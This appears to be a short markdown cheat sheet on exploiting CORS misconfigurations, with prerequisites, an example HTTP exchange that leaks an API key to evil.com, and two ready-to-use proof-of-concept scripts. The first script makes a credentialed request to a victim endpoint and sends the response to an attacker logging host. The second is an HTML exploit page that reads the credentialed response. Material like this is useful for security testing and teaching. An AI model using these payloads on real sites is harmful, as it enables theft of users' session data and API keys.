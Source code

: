 # CORS Misconfiguration and Exploitation

>Cross-origin resource sharing (CORS) is a mechanism that allows restricted resources on a web page to be requested from another domain outside the domain from which the first resource was served. (Wikipedia)

## Prerequisites
* Origin: https://evil.com
* Access-Control-Allow-Credential: true
* Access-Control-Allow-Origin: https://evil.com


## Exploitation
Usually hackers may want to target a API endpoint, So that they can acheive their goals.

**Payload**
```
https://victim.xyz.com/endpoint or https://xyz.com/api/endpoint 
```

## Example
```
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: https://evil.com
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true 

{"[API key]"}
```
### POC

```
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker-website.net/log?key='+this.responseText; 
};
```

**OR**
```
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://victim.example.com/endpoint", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```
